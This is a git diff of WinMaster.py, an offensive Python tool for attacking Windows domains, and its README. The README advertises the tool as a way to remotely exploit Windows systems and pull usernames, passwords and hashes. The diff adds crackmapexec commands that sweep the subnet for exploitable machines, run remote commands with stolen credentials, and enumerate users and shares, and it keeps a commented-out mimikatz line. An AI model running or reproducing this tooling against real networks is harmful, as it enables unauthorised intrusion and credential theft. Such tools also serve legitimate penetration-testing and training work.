

f037e3c9610c2252914010459b7ed952

diff --git a/WinMaster.py b/WinMaster.py
@@ -193,7 +193,7 @@ def display():
    print('\u2551')   
 
    print('\u2551' + " IMPERSONATE  " + '\u2502', end=' ')
-   if IMP == "Administrator      ":
+   if IMP == "administrator      ":
       print(colored(IMP[:COL1],colour1), end=' ')
    else:
       print(colored(IMP[:COL1],colour2), end=' ')
@@ -335,7 +335,7 @@ if not os.path.exists('config.txt'):
    DOM = "EMPTY              " # DOMAIN NAME
    SID = "EMPTY              " # DOMAIN SID
    TSH = "EMPTY              " # SESSION SHARE
-   IMP = "Administrator      " # IMPERSONATE
+   IMP = "administrator      " # IMPERSONATE
    CMD = "whoami             " # WINDOWS COMMAND                                            
    LTM = "00:00              " # LOCAL TIME    
    DIR = "WORKAREA           " # DIRECTORY
@@ -1865,15 +1865,20 @@ while True:
       if CheckParams != 1:
          print("\n[*] Enumerating " + TIP.rstrip(" ") +  " with user " + USR.rstrip(" ") + " and password '" + PAS.rstrip(" ") +"'...\n")
 
+         print(colored("[+] Other exploitable machines on the same subnet...\n",colour1), end=' ')        
          command("crackmapexec winrm " + TIP.rstrip(" ") + "/24")
+         
+         print(colored("[+] Trying specified windows command...\n",colour1), end=' ')
          command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") +"' -x '" + CMD.rstrip(" ") + "'")
 
-         command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") +"' -x 'net user Administrator /domain'")
-         command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") +"' -X '$PSVersionTable'")
+         print(colored("[+] Trying to enumerate users and shares...\n",colour1), end=' ')
          command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") +"' --users")
          command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") +"' --shares")
          
-#         command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") +"' -M mimikatz -o COMMAND='privilege::debug'")
+         print(colored("[+] Trying a few other command while I am here...\n",colour1), end=' ')
+         command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") +"' -x 'net user Administrator /domain'")
+         command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") +"' -X '$PSVersionTable'")         
+#        command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + USR.rstrip(" ") + " -p '" + PAS.rstrip(" ") +"' -M mimikatz -o COMMAND='privilege::debug'")
       
          HASH = "." # Reset Value
          for x in range (0, MAXX):

diff --git a/README.md b/README.md
@@ -5,7 +5,7 @@ Usage: python3 WinMaster.py
 
 | LANGUAGE  | FILENAME         | MD5 Hash                         | Version |
 |------     |------            | -------                          | ----    |
-| python3   | WinMaster.py     | 4156027db1e2ba9f3d52ea9d7e383e7c | Forest  |
+| python3   | WinMaster.py     | f037e3c9610c2252914010459b7ed952 | Forest  |
 
 - [x] Requires Impacket (https://github.com/SecureAuthCorp/impacket) to be installed.
 - [x] Requires Evil-WinRm (https://github.com/Hackplayers/evil-winrm) to be installed.
@@ -20,7 +20,7 @@ Usage: python3 WinMaster.py
 A python script file to remotely exploit Microsoft Windows systems- It can pull domains, usernames, passwords, crack hashes, and much much more.
 
 ### CONSOLE DISPLAY AND VIDEO LINK
-![Screenshot](picture1.png)
+[![WinMaster](https://github.com/BroadbentT/WIN-MASTER/blob/master/picture1.png)](https://youtu.be/5wBMgItFVt4 "WinMaster")
 
 Found this project useful, or would like to see it amended in some way - make a donation.
 https://paypal.me/TerenceBroadbent
